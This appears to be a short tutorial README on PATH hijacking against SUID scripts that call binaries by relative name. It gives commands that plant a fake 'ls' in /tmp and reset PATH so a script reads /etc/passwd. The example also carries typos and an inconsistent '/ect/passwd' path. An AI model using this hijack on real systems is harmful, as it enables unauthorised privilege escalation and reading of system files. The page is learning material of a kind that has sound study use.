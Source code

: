 # Relative path to run binary

## Explanation

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.
- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
.<br>
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.
This program show below refer to this venurability. 

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.
